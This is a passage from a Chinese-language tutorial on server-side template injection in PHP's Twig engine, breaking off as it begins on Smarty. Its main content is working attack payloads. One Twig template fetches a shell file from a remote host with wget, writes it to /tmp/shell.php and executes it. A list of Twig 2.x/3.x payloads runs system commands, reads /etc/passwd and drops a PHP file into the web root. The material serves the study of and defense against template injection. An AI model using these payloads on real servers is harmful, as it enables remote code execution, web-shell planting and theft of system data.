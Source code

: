 模板注入远程下载shell，并重命名运行

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php")}}
```

[![img](assets/1644460030510-826207e5-6ff7-40d9-9bf3-7e975675c514.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232914668-1182705687.png)

以上就是php twig模板注入，由于以上使用的twig为2.x版本，现在官方已经更新到3.x版本，根据官方文档新增了 filter 和 map 等内容，补充一些新版本的payload：

```
{{'/etc/passwd'|file_excerpt(1,30)}} {{app.request.files.get(1).__construct('/etc/passwd','')}} {{app.request.files.get(1).openFile.fread(99)}} {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}} {{_self.env.enableDebug()}}{{_self.env.isDebug()}} {{["id"]|map("system")|join(",") {{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}} {{["id",0]|sort("system")|join(",")}} {{["id"]|filter("system")|join(",")}} {{[0,0]|reduce("system","id")|join(",")}} {{['cat /etc/passwd']|filter('system')}}
```

具体payload分析详见：

《[TWIG 全版本通用 SSTI payloads](https://xz.aliyun.com/t/7518#toc-5)》

《[SSTI-服务器端模板注入](https://my.oschina.net/u/4588149/blog/4408349)》

## **Smarty**

Smarty是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

但是，实际上对语言的限制并不能影响我们执行命令，因为我们首先考虑的应该是模板本身，恰好 Smarty 很照顾我们，在阅读[模板的文档](https://github.com/smarty-php/smarty)以后我们发现：$smarty内置变量可用于访问各种环境变量，比如我们使用 self 得到 smarty 这个类以后我们就去找 smarty 给我们的的方法

### **Smarty-SSTI 常规利用方式：**

**1. {$smarty.version}**
